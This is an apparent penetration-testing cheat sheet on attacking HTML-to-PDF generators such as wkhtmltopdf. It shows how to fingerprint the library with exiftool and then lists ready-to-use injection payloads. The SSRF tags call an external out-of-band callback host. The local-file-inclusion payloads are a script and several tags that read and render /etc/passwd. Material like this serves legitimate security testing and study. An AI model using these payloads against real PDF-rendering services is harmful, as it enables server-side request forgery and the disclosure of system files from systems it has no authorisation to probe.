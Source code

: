 ## PDF Generation Vulnerabilities

#### Determining the PDF Generation Library

```bash
$ exiftool invoice.pdf 
<SNIP>
Creator                         : wkhtmltopdf 0.12.6.1
Producer                        : Qt 4.8.7
<SNIP>
```

#### Server-Side Request Forgery (SSRF) Payloads 

```html
<img src="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest1"/>
<link rel="stylesheet" href="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest2">
<iframe src="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest3"></iframe>
```

#### Local File Inclusion (LFI) Payloads 

```html
<script>
	x = new XMLHttpRequest();
	x.onload = function(){
		document.write(this.responseText)
	};
	x.open("GET", "file:///etc/passwd");
	x.send();
</script>

<iframe src="file:///etc/passwd" width="800" height="500"></iframe>
<object data="file:///etc/passwd" width="800" height="500">
<portal src="file:///etc/passwd" width="800" height="500">

<annotation file="/etc/passwd" content="/etc/passwd" icon="Graph" title="LFI" />
```
